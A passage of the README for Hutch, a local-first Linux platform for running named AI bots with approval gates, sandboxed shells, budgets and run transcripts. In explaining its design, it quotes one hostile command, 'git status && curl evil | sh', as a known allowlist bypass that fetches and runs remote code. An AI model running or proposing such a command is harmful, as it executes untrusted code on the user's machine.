

# Hutch

> Your bots. Your machine. Your rules.

Local-first, multi-bot AI assistant that runs on your machine.

[](https://github.com/K-Arthur/hutch/actions/workflows/ci.yml)
[](LICENSE)
[](#setup-details)
[](#is-hutch-for-me)
[](docs/realignment/ledger.md)
[](https://k-arthur.github.io/hutch/)
[](https://github.com/K-Arthur/hutch/releases/tag/v0.1.0)

**Development preview.** APIs, storage schema and CLI may change without notice.



```bash
git clone --depth 1 https://github.com/K-Arthur/hutch.git
cd hutch
uv sync --extra dev
uv run hutch init
uv run hutch serve   # dashboard at http://127.0.0.1:8787
```

The repository is over 1 GB, mostly dated browser traces and evidence under `docs/realignment/artifacts/`. A shallow clone is the fastest checkout; the full history includes those reviewed artifacts.

- Named assistants (called bots in the CLI), each with its own model, tools, schedule, memory and workspace
- Ask-first approvals and hard-denied shell classes, with verifiable run transcripts
- Local or hosted model routes you configure: Ollama, llama.cpp, LM Studio, OpenAI, Anthropic, OpenRouter, OpenAI-compatible endpoints and OpenCode
- Estimated spend ceilings and usage reservations; provider billing stays authoritative
- Linux today; macOS and Windows executors are not implemented

[Documentation](docs/README.md) | [Website](https://k-arthur.github.io/hutch/) | [Source](https://github.com/K-Arthur/hutch) | [Discussions](https://github.com/K-Arthur/hutch/discussions) | [Security](SECURITY.md)

## Contents

- [What is Hutch?](#what-is-hutch)
- [Why it exists](#why-it-exists)
- [Is Hutch for me?](#is-hutch-for-me)
- [Setup details](#setup-details)
- [Features](#features)
- [Common questions](#common-questions)
- [Documentation](#documentation)
- [Development](#development)
- [Contributing and security](#contributing-and-security)
- [License](#license)

## What is Hutch?

Hutch is a **local-first, MIT-licensed multi-bot platform in development preview** (early software, Linux first). Run named AI bots on
your own machine, each with its own model, tools, schedule, memory and workspace, with human approval gates,
step/time/token caps and run transcripts. For eligible failed or stopped built-in specialist tasks, an owner can review a safe
checkpoint and request a fresh run; Hutch does not resume an old worker or replay actions.

Hutch keeps the orchestrator, memory, logs and Bots on your machine. Models can run locally
(Ollama, llama.cpp, LM Studio) or use Anthropic, OpenAI, OpenRouter or another configured
OpenAI-compatible endpoint. OpenCode is an optional assistant runtime: connect its provider,
pick an `opencode/provider/model` route, and use Hutch's approval and usage controls.
Scheduled work runs while the Hutch host is awake and its background process is running.

**Status.** Hutch is a development preview on Linux. What works and what does not is tracked in
[docs/realignment/ledger.md](docs/realignment/ledger.md) (the continuously updated evidence log) and
[docs/realignment/baseline.md](docs/realignment/baseline.md) (the original measured snapshot from
2026-10-07, kept as a dated record). There are no packaged desktop installers and no hosted sign-up
today. There is no PyPI package or public desktop download; the supported installation path is a
Linux source checkout. Windows/macOS worker execution and installed-package acceptance are
incomplete. Source availability does not imply a production-ready desktop release. See the
[current production checkpoint](docs/realignment/desktop-production-2026-10-26.md) for release gates.

```
$ uv run hutch run tidy-downloads "sort this week's downloads"
→ remember    {"key": "last-run", "value": "sort downloads"}
→ list_files  42 files
! approval needed: move invoices/ → sorted/invoices/      ← you decide
✓ approved · continuing
✓ moved 38 files · run succeeded (steps=6, tokens≈2.1k)
```

## Why it exists

Each core requirement traces to a *reported* failure class of agent products: runaway loops that keep spending, schedules that
quietly never ran, agents reading files they should not, allowlists bypassed with `git status && curl evil | sh`, permission
prompts so relentless people switch to yolo mode. Most of these are individual reports, not measured prevalence; the sources,
and which of them did not survive re-checking, are in [docs/research/complaints.md](docs/research/complaints.md). The design
answers, and their limits, are in [docs/safety.md](docs/safety.md).

## Is Hutch for me?

Hutch fits technical builders on Linux who want repeat AI work (scheduled briefings, file chores, coding handoffs) to run on hardware they control, with a model route they choose.

**A good fit if you:**

- run Linux and are comfortable with a terminal and a source checkout
- already run a local model (for example Ollama, llama.cpp or LM Studio) or hold a hosted provider key
- want assistants that ask before consequential actions and leave reviewable transcripts
- prefer estimated spend ceilings and local evidence to a vendor dashboard

**Not a fit yet if you:**

- need macOS or Windows execution (not implemented)
- want a packaged desktop installer or a hosted sign-up (neither exists)
- do not want to configure a model route yourself
- need production-grade guarantees or a support contract

| | Today |
|---|---|
| Stage | Development preview (early software) |
| Platform | Linux (Python 3.11+); macOS and Windows executors are not implemented |
| Install | Linux source checkout; no packaged desktop installers or hosted sign-up |
| License | MIT |
| Price | The software is free; hosted model usage is billed by your provider account |
| Model routes | Ollama, llama.cpp, LM Studio, OpenAI, Anthropic, OpenRouter, OpenAI-compatible endpoints, and OpenCode |
| Maintainer | Solo maintainer, best effort; no published response-time commitment |

## Setup details

**Requirements:** Linux, Python 3.11+ and [uv](https://docs.astral.sh/uv/). Real runs also need a model route you configure (a local runtime or a hosted provider account); runtime prerequisites are documented in [docs/runtime-setup.md](docs/runtime-setup.md).

On Linux with systemd, `uv run hutch service install` can start the same loopback-only dashboard in your user session
and bring it back at the next login. It does not enable remote access or change your data. Hutch does not enable
systemd linger for you; if you want background work to continue after logout, review your own systemd user-session
policy first. `uv run hutch service status` and `uv run hutch service uninstall` inspect or remove the unit without deleting data.

Configure a real model route in **Apps & AI**. Save a workspace model default if you want the
one-screen New Bot flow to reuse it; without a configured model, setup asks you to choose one
instead of silently switching providers. For a local
Ollama install, for example:

```bash
hutch bot create research-briefing --display-name "Research Briefing" --model ollama/llama3.2 --tools files,web_fetch --approvals ask
hutch run research-briefing "summarize this week's AI news"
```

The run uses the configured model and real tool responses. Review and resolve any approval
shown by Hutch before the requested action can continue. `hutch daemon` runs schedules and
approval expiry without the dashboard.

For an experimental coding handoff, set the Bot's workspace to the root of an existing Git project. After a successful Studio
reply, choose **Prepare coding task** and review the brief. On the Linux Hutch host, run `hutch code login` once to connect a
provider in a dedicated private OpenCode profile; this does not copy your regular OpenCode sign-in. Then run the exact
`hutch code run <task-id>` command shown on the task card from an interactive terminal. It launches your installed OpenCode CLI
in a separate worktree at the reviewed commit. Hutch gives OpenCode foreground input in its own process group, then restores
your terminal after verified cleanup. OpenCode model usage remains outside Hutch's budgets; commands you approve there use your
Linux account's full authority.
Review the retained branch manually. Hutch does not apply or publish it; see [operations](docs/operations.md#reviewing-an-opencode-coding-task).

## Features

Availability and limits are summarized above and tracked in [docs/realignment/ledger.md](docs/realignment/ledger.md); experimental items are labelled as experimental.

### Bots and conversations

- **Multiple named bots**: own model, tools, recurring tasks, memory, workspace; pause/resume; templates. New Bot setup has a one-screen safe-default path when a model default is available. In an active chat, the latest user request already becomes the Bot's starting instructions; **Make a bot** uses the exact message you selected. Review the locally suggested professional name and create without describing the same work again. You can edit the request when needed. The managed workspace starts without tools or a schedule, asks before actions that need approval, and does not start a run. **Customize** opens the full model, workspace, tools, memory, schedule, limits, browser handoff, import and review flow. Names and stable addresses remain editable; there is no silent provider fallback. From a built-in workspace coordinator chat, you can optionally request a tool-free rewrite of the Bot's standing instructions using that source, your current draft, and earlier user messages you explicitly select; each request returns one response. It returns an editable proposal and any material questions; nothing is applied until you choose **Use this draft**. Each request uses the coordinator's normal model route, configured fallback and run/budget limits; hosted providers may retain submitted text. It creates no Bot and adds no access or permissions. Naming suggestions stay local and reviewable. Later requests, assistant replies and other chats stay out, and selection grants no permissions. The CLI accepts `--display-name`; older slug-only Bots receive readable labels. Choose one Bot as the workspace coordinator from its settings; it becomes the default Studio chat, while each Bot remains directly reachable. An experimental reviewed handoff lets the coordinator turn its completed answer into an editable task brief, select a specialist, and send the brief and assumptions into a separate chat. The review can also include up to eight currently approved coordinator facts, but only when selected and only for that task; those facts are marked untrusted and are not added to the specialist's saved memory. Provider retention follows its terms, and submitted context cannot be recalled. Task status, the latest response and an ordered content-free checkpoint timeline stay linked in the coordinator conversation. The timeline records committed event markers, not reasoning or action text, and does not restart or resume work. The specialist uses its own saved route and settings. If the specialist needs a decision, its question appears on the task card as **Needs your answer** with the exact options, and you can answer there or in the specialist chat; a waiting question is never shown or attached as a finished result. You can attach one exact specialist response to a follow-up for the coordinator; only that bounded response is included as untrusted context, with no files, credentials or permissions transferred. Live provider execution remains unverified.
  The coordinator's durable specialist roster starts empty; only Bots an owner adds in coordinator settings can receive new assignments. Removing one does not stop existing work or delete history, and promoting a specialist to coordinator does not automatically authorize the former coordinator.

### Documents, outputs and grounding

- **Documents, created and verified locally**: Bots draft typed content and Hutch renders it deterministically into PDF, DOCX, XLSX, PPTX, CSV, JSON, Markdown, YAML or ZIP, validating each file with an independent reader before it can be downloaded. Versions are immutable and SHA-256-recorded in Hutch's own store; downloads re-verify every byte and never expire with the chat that made them. Revisions create new versions (compare-and-swap, older ones stay downloadable), previews are labelled as extracted content or approximate page renders, and office layout previews become available when LibreOffice is installed. See `docs/file-formats.md`.
- **Typed, interactive outputs in the conversation**: a tool can present validated output blocks that render as real cards in the run transcript: charts with hover, drag-zoom, legend toggles and an exact-values data table; sortable tables with truncation notes; filterable timelines that show corrected-event provenance and local time; comparison matrices that display `unknown`/`unsupported` explicitly instead of guessing; flowcharts with read-only node inspection, pan and zoom; deterministic local rendering or optional configured provider media adapters; and hash-bound code receipts that show the exact executed source. Provider-backed media behavior remains unverified here. Every block carries a readable text fallback, invalid blocks show a labeled diagnostic rather than disappearing, and prose is never scanned for widgets. See `docs/research/outputs-block-contract-2026-10-10.md`.
- **Conversation data uploads**: attach CSV/TSV, text, Markdown, JSON, PNG, JPEG or WebP files up to 25,000,000 bytes each. Hutch stores them in the conversation workspace, verifies their digest when serving, and provides bounded CSV disclosures. Each conversation can register 200 uploads; deleting one hides it from the listing but retains the workspace bytes. See [operations](docs/operations.md#workspace-continuity).
- **Chat image input**: stage PNG, JPEG or WebP images in the composer (file picker, paste or drag-drop; up to 4 images of 1.5 MB each) and send them with the message, including image-only sends. Built-in runtimes need a vision-capable model route; an unsupported route or runtime refuses with a reason before a run exists, and the OpenCode runtime checks the selected model's declared image support and names a text-only model when it refuses. Staged images travel with every message until you remove them, and a refused send keeps your draft and its attachments.
- **Contained Python workspace and media creation**: `run_python` runs real CPython in the conversation's own contained kernel (bubblewrap: workspace-only writes, no network, bounded CPU/memory/processes/files), keeps variables across cells per environment generation, interrupts softly without losing state, reports verified hard escalations honestly, and returns a hash-bound receipt of exactly what ran. `create_media`/`render_diagram` produce deterministic SVG diagrams and animations locally, and route image/video requests to a configured provider only after a real probe: an unconfigured backend gets setup steps, never a substitute asset. Media bytes are content-addressed, re-verified at serve time, and support playback range requests. Provider-backed generation remains unverified here: no backend is configured in this environment.
- **Grounded live answers (with real time and media checks)**: optional `live_search` and `inspect_media` tools fan out across public feeds, GDELT news, Hacker News, a configured SearXNG instance, public Bluesky search, a bounded live window of the Bluesky Jetstream firehose (optional `hutch[jetstream]` extra), and the Wikimedia event stream, with bounded budgets and distinct outcomes: no source answering is reported as its own state (blocked, rate-limited, disabled, zero results, coverage gap), never as "nothing happened". Every fact carries its timestamp role (published, seen, retrieved, occurred), relative phrases anchor to the document that said them, and copies/reposts/syndicated headlines count once as one origin: popularity is never corroboration. Media checks store and hash the artifact, sample claim-relevant video frames with exact timecodes, state which intervals and audio were **not** inspected, detect C2PA manifest presence (absence is normal), and attach frames to vision-capable model routes while recording what actually reached the model. Answers cite stored sources by handle; a later correction is a labelled revision, not a rewrite. See [docs/grounding.md](docs/grounding.md).

### Safety, memory and skills

- **Security and consent boundaries**: tool results remain untrusted data even when they contain prompt-like text or protocol delimiters; retrieved HTML is assessed for hidden or suspicious instructions without deleting the evidence, and stored SVG media rejects remote CSS fetches. Local and paired dashboard responses use a strict content security policy. Provider approvals bind to the exact route, and Python approval binds to the exact code that will execute. See [docs/safety.md](docs/safety.md) and the [containment review](docs/research/security-containment-2026-10-11.md).
- **Per-Bot memory management**: review, revise, archive and inspect fact history in that Bot’s settings. Export all revisions, decisions, provenance and explicit share snapshots as bounded JSON. The file is unencrypted plaintext; fact values and review notes may be sensitive. It excludes conversations, credentials, action receipts and workspace files; permanent deletion is not implemented.
- **Conversation continuity**: runs carry the newest bounded chat history with admission provenance and identity-based reply deduplication, and a partial, empty or truncated assistant reply is reported as such instead of being passed off as complete. On the OpenCode runtime, a per-run memory bridge exposes scoped `recall`/`remember` tools bound to the exact Bot, run and conversation, with no credential in the model's environment; compaction writes anchored, immutable task manifests so each summarization cycle stays auditable. Verified with offline tests plus one live free-model observation; tool-calling quality is model-dependent, and nothing guarantees retention beyond a model's actual context window.
- **Skills (Agent Skills `SKILL.md` packages)**: discover, import, validate, review/trust, assign to Bots, activate per message, inspect, update/rollback, and disable/uninstall, from the dashboard, CLI and API. Only trusted, enabled skills are disclosed to a model; `allowed-tools` metadata is informational and never grants authority; scripts are never executed automatically. A package that changes on disk after review is withheld until re-reviewed, and an explicitly activated skill that was revoked before the run starts fails the run instead of running with different instructions. Built-in runtime only; external runtimes report skills as unsupported. See [docs/skills.md](docs/skills.md).

### Connections, models and runtimes

- **Model choice, local first**: native Ollama (context size always set), Anthropic, OpenAI, OpenRouter, and OpenAI-compatible endpoints. The OpenRouter catalog loads when you open model choice and can be searched by name; its published prices are informational until reviewed in Settings > Prices. Optional per-Bot task focus profiles tune the built-in local context window and residency policy; they never pick a model or provider. There is no user-facing mock model or simulated run; setting `HUTCH_TESTING` does not change product behavior. Live provider and local-model checks depend on your setup
- **App connections (experimental)**: Apps & AI exposes Google Calendar, Drive/Docs/Sheets, mail and Notion. Normal browser sign-in needs no account nickname or developer form. Google and Microsoft require Hutch's publisher registrations; the development manifest has empty IDs, so those live sign-ins remain blocked. Notion uses public-client browser OAuth with its official hosted MCP server. Choose an assistant's search/page-read grants, inspect the tool definitions, revoke access or disconnect. Read grants cover routine reads; writes and connected-source search are not exposed. Controlled tests cover Notion's protocol, scope, receipts, cancellation and UI; live account validation and other-OS secure stores remain open. See [connections](docs/connections.md).
- **Calendar and mail connections (experimental)**: Google Calendar lookup is read-only by default. Owners can separately request Google's broader `calendar.events.owned` scope and grant one owned calendar to a Bot for guest-free event creation after exact approval in chat; Hutch does not offer edits, deletion or invitations, and uncertain writes are not replayed. Google consent and public OAuth verification remain unverified. Outlook Calendar lookup remains read-only by default; a separate `Calendars.ReadWrite` sign-in can be granted for guest-free event creation on one selected calendar, with exact approval each time and no retry after uncertain outcomes. Microsoft's scope reaches all calendars on the account, although Hutch exposes create-only on the selected calendar. Outlook Mail provides read-only search previews across a granted mailbox, including Deleted Items and Clutter. Its separate `Mail.Send` connection has an Apps & AI setup, exact per-email approval and no retry after an uncertain outcome. Gmail search remains a private preview using restricted, account-wide `gmail.readonly`; results are bounded previews exposed only to built-in assistants whose model routes stay on loopback Local inference. A different, send-only Gmail connection uses sensitive `gmail.send` and can prepare a single plain-text email for exact approval every time. The search and send accounts, grants and revocation are separate. No live Google or Microsoft account was used; Google OAuth verification is incomplete, so these remain private previews and are not approved for public release. No Gmail attachments, replies, forwarding or other mailbox changes are available.
- **Per-bot model routing**: Hybrid allows local and hosted routes; Local keeps model calls on recognized local routes while tools may still use the network. Experimental Offline is offered only after Linux bubblewrap network/PID-namespace and Unix-socket broker checks pass. It removes browser/web tools and requires contained shell; the separate model service may still use the network.
- **Switch models from the chat**: a composer menu shows what fits this machine, what it costs and what is missing; per message, never a silent edit of the bot
- **Provider connections**: OpenCode Go uses its issued API key copied into Hutch; Xiaomi MiMo Token Plan and custom endpoints use their own scoped keys. An opt-in Sign in with ChatGPT preview uses the official local token-sharing flow when eligible. Each route keeps its own allowance and terms; Hutch never imports another app's sign-in files.
- **Reviewed OpenCode coding handoff (experimental, Linux)**: from a completed chat answer, review an editable coding brief, connect a provider with `hutch code login`, then launch the installed OpenCode CLI in a new worktree pinned to the Bot's configured Git project commit. The provider connection is saved in a private Hutch-managed OpenCode profile, separate from your regular OpenCode profile. Hutch hands its interactive process group the controlling terminal and restores it after verified cleanup. Model usage stays outside Hutch's budgets. OpenCode's terminal permission prompts are not brokered by Hutch; approved shell commands run with the Linux user's authority. Hutch does not apply or publish the resulting branch. This is separate from OpenCode Go's API-key connection and does not enable the OpenCode Bot runtime.
- **Local inference admission**: one caller and eight waiters across Hutch workers; releases capacity during human waits,
  rechecks native Ollama memory headroom, and shows queue reasons. Fit remains estimated; real models are unverified.
  `hutch doctor` reports configuration problems with suggested fixes.

### Schedules, approvals and supervision

- **Scheduling that survives sleep and DST**: IANA-timezone cron, DST-correct, catch-up after sleep or workspace pause; each occurrence and each run is
  claimed in the database; each bot can have up to 100 named tasks with independent prompts and timezones. One elected supervisor
  handles schedules and recovery. Runs take turns within their execution lane; interactive chat and workflow work use separate lanes.
  The Schedules overview shows each next run in its own time zone;
  its workspace pause blocks future schedule starts without stopping queued or running work. Edit tasks in Bot settings or with
  `hutch bot schedules`.
- **Bounded task delegation (experimental)**: an explicit `delegate_task` opt-in for the built-in Strict Offline Linux worker.
  Every request asks for approval, receives only the task text, and runs in a private workspace under the parent's captured
  permissions and budget. Each lineage is depth-limited and time/step-bounded; parent Stop reaches children. The default two-run
  global limit permits one child at a time. This is not general multi-bot collaboration or automatic file transfer; see
  [delegation limits](docs/realignment/delegation.md).
- **Approvals that don't nag**: ask-once with sticky always-allows; unanswered = denied. The cross-bot **Needs you** queue orders pending requests by soonest deadline, then risk and outward effect, with due-soon, high-risk, and leaves-machine filters; each decision remains one request at a time.
- **Local browser handoff (experimental)**: opt in per bot to let a person enter passwords, one-time codes, and CAPTCHA responses directly in the same visible Linux browser session. Hutch never types credentials or solves challenges; Resume rechecks the live page without reloading. Native form submissions show destination, method and visible field labels; approval is invalidated if the form changes, field values stay in the browser, and selected files require a separate reviewed, byte-bound workspace upload. Same-origin direct HTTP text downloads have bounded managed artifacts; unsupported formats fail closed. Profiles follow immutable bot IDs. Sensitive screenshots are blocked while conventional fields are visible. Detection may miss custom fields. Bounded headless handoff is available with separate step-control permission; physical phones remain unverified. Run `hutch bot update <name> --local-browser-handoff`.
- **Optional browser alerts**: get a generic reminder when a new approval or uncertain action needs you while Hutch is open in a background tab. Alerts never include chat or action text. They are not push notifications and stop when the tab closes.
- **Usage budgets**: steps and wall-clock limits plus atomic per-bot token and shared provider-account reservations. Currency checks use recorded prices and prompt estimates; unknown-price routes are refused while a currency cap is set, and provider billing can differ. `hutch usage reservations` lists uncertain charges for reconciliation. `serve`, `daemon`, and `hutch run` use one owned worker process per attempt; cancellation stays visible until cleanup is verified
- **Workspace and shell containment**: file tools stay in the workspace. New bots request Linux bubblewrap strict mode for shell commands, with no shell network and bounded resources; unsupported hosts fail closed. Existing bots keep their saved setting, and `sandbox: off` is explicitly uncontained execution. This shell boundary is not a VM and does not contain the browser or external runtimes
- **Workspace continuity**: fresh per-run folders remain the default; choose a private Hutch-managed folder for one bot's runs and chats, or explicitly select an existing folder. Changing modes never moves or deletes files, and bot deletion keeps managed workspaces.
- **Run transcripts**: canonical SQLite events and recoverable JSONL files; durable delivery retries after restart and shows pending file errors without losing chat history. Verify a saved chain from run detail or with `hutch runs verify <run-id>`; older unchained events are reported as partial, and detected edits are reported as failures.
- **Conversation files**: successful `write_file` actions appear as SHA-256-checked downloads directly in Studio chat, outside collapsed tool details; clipped tool output has per-tool display limits and a verified download/source card. The composer menu can browse saved files and clipped tool output from every run in that conversation. An owner can explicitly share a verified reference to a selected other chat and manage or revoke it from either chat's Files list; bytes stay in the source run and are not copied into the receiving workspace or model context. Snapshots are capped at 4 MB per file and 16 MB per run; shell-created files stay in the workspace
- **Uncertain action review**: inspect saved arguments in chat, check the destination and record a human outcome report. Missing receipts remain distinct from success; reconciliation preserves execution history and grants no permission.
- **Database restore review**: snapshot committed SQLite history, verify it in a new directory and quarantine old work. Source process records confer no cleanup authority; devices and standing grants are revoked, schedules paused and new execution held for a local review. Credentials, browser profiles and user files need separate backups. See [Operations](docs/operations.md).
- **Scoped reference facts**: Bots propose facts in their chat; a human reviews them before recall. Sharing a fact with another Bot is a separate, explicit, revocable grant to one named recipient, with source and revision visible in both Bots' chats. A recipient can read the reviewed snapshot as untrusted reference data; it receives no tools, account access, workspace, credentials, or other conversation history. Revisions need a new review and grant; old versions and revoked grants remain inspectable in local history and backups. Memory can be disabled without hiding management.
- **Reconnectable state**: ordered resource invalidations and snapshot reconciliation; chat approvals refresh without replacing the draft
- **Conversations (preview)**: each assistant has one persistent main chat across restarts. Explicit history links retain earlier
  conversations, and focused task discussions stay separate. The runtime receives bounded recent history; persistence does not mean sending an unlimited transcript. The versioned API has SQLite full-text search, restart-safe command idempotency,
  cross-run transcript replay and bounded snapshot reconciliation after a cursor gap. Pin chats, mark them unread, group them in
  named sections, and keep reusable requests in a searchable local library. Saving reviews the first user request; selecting a
  saved request fills a draft only, and send remains a separate action. The library is included in local state backups; task-template
  JSON remains available for reviewed file import/export. Standalone
  `/api/v1/tasks/runs` submissions and human-resume commands use restart-safe idempotency; resume is
  bound to the active human-needed event so an old action cannot skip a later challenge. Built-in
  chat runs can ask a bounded single- or multi-select question; answers resume with a normal chat
  message and never approve an action. The standalone OpenCode coding handoff remains separate. The experimental governed OpenCode assistant runtime uses supported canonical tools on Linux; Pi remains unavailable as a Hutch-managed runtime.
- **KDE Connect status (experimental, Linux)**: select a paired device and assistant in Apps & AI to allow bounded connection/battery reads. Revocable grants and run-scoped tools work through the built-in and governed OpenCode paths. No phone content, pairing, messages or remote commands are exposed. Physical device validation remains open. See [connections](docs/connections.md#kde-connect-device-status-experimental-linux).
- **Phone supervision (experimental)**: start pairing from Apps & AI under Your devices after private host setup. Private HTTPS and an explicitly enabled passkey session provide bot/run status, transcript
  review, Allow once/Deny, Stop/Resume, and optional starts for locally enabled Bots. Pairing, Bot settings, secrets, schedules, and
  computer permission settings remain local-owner tasks. Explicitly enabled bounded computer input is available to authorized Review sessions. Remote access stays disabled by default; live network and iOS/Android validation
  remain open. See [remote operations](docs/operations.md#phone-supervision-over-private-https).
- **Browser (experimental)**: optional Playwright extra and a persistent profile per bot. Opt in to Local browser handoff to open
  the same session in a visible Linux desktop window; Hutch pauses while you complete a detected login challenge and verifies the
  challenge is gone after Resume. Only one Hutch desktop handoff can be active at a time. Headless runs need explicitly enabled step control for a human challenge;
  the owned Chromium context sends HTTP(S) and WebSocket traffic through a local DNS-pinning proxy with implicit local bypass disabled.
  Local fixtures exercise the proxy; live public destinations and non-HTTP browser traffic are not verified. Physical-phone and live-network input remain unverified.
- **Computer use (experimental)**: beyond the browser, a Bot may operate a native desktop application in a disposable, isolated KWin Wayland session Hutch starts for the run (separate display/input; apps have workspace-only user files, no network and bounded resources). Browser and desktop observations are bounded frames with honest freshness, sent only to routes that accept images (hosted routes need an explicit Bot setting); control ownership is generation-fenced; stop works while a call is hung. Verified on KDE Plasma Wayland with KWrite and real Chromium; the existing personal desktop, portal consent flow, GNOME and macOS/Windows are not implemented. Bounded authenticated human step control works in local HTTP/viewport and native-input tests; physical phones and live remote networks remain unverified. Run `hutch computer doctor`. See [docs/computer-use.md](docs/computer-use.md).
- **OpenCode assistant**: a full OpenCode **V2** runtime is available through a Hutch-owned private profile. Install the OpenCode CLI first. In Apps & AI, **Use an existing OpenCode login** can transfer one explicitly selected API-key credential into Hutch’s isolated profile. OAuth accounts use their supported sign-in flow. Connect a provider this way or by a new API key/sign-in, choose an `opencode/provider/model` route, and chat with Hutch-brokered approvals and usage reservations. OpenCode's own tools run with the user's OS authority after approval; they are not inside the built-in shell's bubblewrap sandbox. Pi remains disabled. The separate OpenCode coding handoff still launches the interactive CLI for a reviewed coding task. See [runtime prerequisites](docs/runtime-setup.md).

To opt a local Linux bot into the bounded child-task tool, use a supported numeric-loopback model route and verified Strict Offline
host support, then run `hutch bot update <name> --inference-mode offline --sandbox strict --tools files,delegate_task`. Review the
delegation approval in chat or Needs you each time; configuration does not grant standing approval.

## Common questions

### What is Hutch?

Hutch is a local-first, MIT-licensed platform for personal AI assistants that run on your own Linux computer. You choose the models and connected apps; assistants ask for your approval before important actions. Each named assistant (called a bot in the CLI) has its own model, tools, schedule, memory and workspace.

### Is Hutch free?

The software itself is free and MIT-licensed: there is no subscription, hosted tier or usage fees of its own. A hosted model route uses your own provider account and pays that provider's prices. Hutch estimates and reserves usage before hosted calls, but provider billing stays authoritative and estimates are not an external spending guarantee.

### What runs where?

Hutch's control state stays local: conversations, memory, logs, schedules and files live in one state directory on the machine you control. Model calls go to whichever route you configured. A hosted model receives the prompts and context Hutch sends to it; network tools connect to their own destinations. A local runtime such as Ollama, llama.cpp or LM Studio keeps model calls on your machine, while configured tools can still use the network.

### Does Hutch need a GPU or an API key?

Hutch connects to a model route you configure. It does not bundle model runtimes, model weights or hosted inference. A local runtime such as Ollama, llama.cpp or LM Studio runs on your hardware, and whether a given model fits is estimated, not guaranteed. A hosted route uses an account with that provider, connected by key or a supported sign-in. There is no product demo runtime or simulated model.

### Is Hutch ready for production use?

No. Hutch is a development preview (early software, Linux first). What works, what is experimental and what is unavailable is tracked in [docs/realignment/ledger.md](docs/realignment/ledger.md), and the known limits are in [docs/safety.md](docs/safety.md).

### What platforms does Hutch support, and can I install it?

Linux today, with Python 3.11+ for a source checkout. macOS and Windows executors are not implemented. The supported installation path is a source checkout; there are no packaged desktop installers and no hosted sign-up. Tagged source snapshots may be published, but they are not installers.

## Documentation

Start with the [docs index](docs/README.md) for a map of the documentation tree, including dated evidence and architecture decision records.

| Doc | Contents |
|---|---|
| [Docs index](docs/README.md) | map of architecture, safety, operations, research, evidence and marketing docs |
| [Architecture](docs/architecture.md) | component map, decision log, concurrency model |
| [Safety model](docs/safety.md) | deny/ask/allow rules, approval flow, honest limits |
| [Connections](docs/connections.md) | subscription plans and custom endpoints, keys, allowances, OpenRouter model catalog, OpenCode Go API-key handoff, ChatGPT local sign-in preview, experimental Calendar/mail, Drive/Docs/Sheets, Notion read grants and phone pairing, what is unsupported and why |
| [OpenCode coding handoff](docs/research/opencode-coding-handoff-2026-10-09.md) | Evidence, implementation boundary, public failure reports and live verification gaps |
| [Bot configuration](docs/bot-config.md) | fields, model specs, schedules, limits, YAML preview, download and reviewed import |
| [Operations](docs/operations.md) | Linux sandbox requirements, phone supervision, incomplete cleanup, migration backups and restore |
| [Models](docs/models.md) | chat model switcher, fit, model slots, prices, `hutch doctor` |
| [Provider compatibility](docs/realignment/provider-compatibility.md) | route status, request fields, evidence dates, and live-verification limits |
| [Design system](docs/design-system.md) | shared UI tokens, components, icon/emoji policy, a11y rules |
| [Roadmap](docs/roadmap.md) | phases: hardening → capability → scale-out |
| [Bounded delegation](docs/realignment/delegation.md) | Strict Offline opt-in, approval, context boundary and current limits |
| [Realignment](docs/realignment/baseline.md) | measured baseline, evidence ledger, [architecture decisions](docs/adr/), continuation ledger |
| [API and conversation contract](docs/realignment/contracts.md) | versioned local resources, idempotency, cursors and remaining remote-access gaps |
| [Marketing site claims](docs/marketing-site.md) | claim and evidence rules that the static site's copy must satisfy |
| [Brand assets](docs/brand-assets.md) | third-party service marks, identity assets and typefaces |
| [Discoverability](docs/discoverability.md) | public surfaces, SEO and answer-engine policy, GitHub Pages caveats, verification steps |
| [Research](docs/research/) | orchestrator/runtime comparison; incident-based requirements |

Marketing site: [k-arthur.github.io/hutch](https://k-arthur.github.io/hutch/) (static landing page; its claims are checked against the evidence ledger).
Web Dashboard: conversation-first Studio (`http://127.0.0.1:8787/#/chat`) with one searchable bot roster, durable pinning for frequent bots, inline approvals and a cross-bot Needs you drawer. The workspace coordinator stays first; pinning only changes roster placement and never hides or pauses work. Bot settings own memory, permissions and defaults. Monitor holds Activity and run history; a searchable Fleet view appears at ten bots. App identities are simple flat 2D characters; detailed 3D mascot art is reserved for the marketing site. See [navigation decisions](docs/realignment/navigation.md).

Configured fallback to another hosted account or destination requires a per-run review. A
broken stream retains uncertain usage and a retry needs another usage reservation. These
holds persist across allowance rollover until settled or explicitly reconciled. Stale workers
cannot release them or change their receiving account. These controls have fixture coverage;
provider billing and live compatibility remain unverified.

## Development

Ubuntu 24.04 regression hosts need the renderer, extraction and sandbox packages
in addition to Python dependencies:

```bash
sudo apt-get update
sudo apt-get install --no-install-recommends -y bubblewrap poppler-utils libharfbuzz-subset0 fonts-liberation fonts-dejavu-core
```

Playwright's `--with-deps` option installs its additional browser libraries.
Installing bubblewrap does not prove that the host permits its required namespaces;
